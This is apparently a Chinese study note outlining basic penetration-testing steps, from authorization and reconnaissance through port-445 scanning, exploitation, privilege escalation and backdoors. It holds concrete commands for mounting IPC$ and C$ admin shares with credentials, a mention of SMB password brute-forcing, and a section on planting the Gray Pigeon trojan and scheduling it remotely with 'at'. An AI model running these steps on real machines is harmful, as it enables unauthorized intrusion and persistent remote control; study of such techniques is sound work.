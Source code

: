 ```yaml
---
category: study-tech
title: 渗透测试基本流程
date: 2023-05-01
excerpt: Web安全、网络安全、笔记
tags:
  - 笔记
  - 网络安全
  - Web安全
---
```


# 渗透测试基本流程

# 0. 授权

# 1. 信息收集

nslookup

whois

# 2. 扫描漏洞

namp = ip 范围  端口 80 （IIS，apache，什么网站）

**scanport扫描445端口**

## 高级扫描：

如IIS漏洞2003-IIS6.0  2008IIS7.0   扫描网站漏洞（）

# 3. 漏洞利用

# 4. 提权（shell环境、桌面环境、最高权限）

# 5. 留后门

# 6. 渗透测试报告

### 手工测试端口号开放：

### telnet IP地址  测试端口

### 445漏洞利用之 IPC$:

net use f:\\10.1.1.1\share  密码 /user:用户名

net use f:\\10.1.1.1\c$  密码 /user:用户名

```cpp
**net use  \\10.1.1.1\ipc$  密码 /user:用户名**
```

### 暴力破解系统密码之445

![](https://cdn.jsdelivr.net/gh/yy0691/img-bed@main/Net_Safe_Notion/Untitled%2067.png)

## 制作木马

```cpp
//利用灰鸽子软件
copy  //植入木马  
time  //查看时间  
net time //查看对方时间

at \\10.1.1.1 12:18 "c:\windows\system\xx.exe"  //设置定时任务
```